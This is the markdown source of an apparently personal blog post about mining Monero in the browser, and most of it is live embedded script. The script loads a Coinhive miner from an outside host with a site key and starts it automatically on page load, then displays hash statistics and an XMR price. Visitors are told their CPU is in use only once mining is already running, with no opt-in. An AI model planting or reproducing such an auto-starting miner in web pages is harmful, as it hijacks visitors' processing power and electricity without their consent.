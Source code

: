 ```yaml
---
layout: post
title: Mining crypto using your web browser?
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? How can it be utulized?

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
	var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y');
	miner.start();

	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond();
		var totalHashes = miner.getTotalHashes();
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
		document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
		document.getElementById("totalHashes").innerHTML = totalHashes;
		document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
	}, 1000);

	// API call to Crypto Compare
	window.onload = function(){
		var xhttp = new XMLHttpRequest();
		xhttp.onreadystatechange = function() {
			if (this.readyState == 4 && this.status == 200) {
			var json = JSON.parse(this.responseText);
				document.getElementById("XMRprice").innerHTML = json.USD;
		   }
		};
		xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
		xhttp.send(); 
	}
</script>
**The page you are on is currently utilizing your CPU to mine Monero.**
The current price of Monero based on data retrieved from the CryptoCompare API is <p id="XMRprice"></p>

<br />
<br />
### Miner Stats since visiting this page
<div>
#Hashes per second: <p id="hashesPerSecond"></p>
**Total Hashes:** <p id="totalHashes"></p>
##Accepted Hashes: <p id="acceptedHashes"></p>
<br />
</div> 
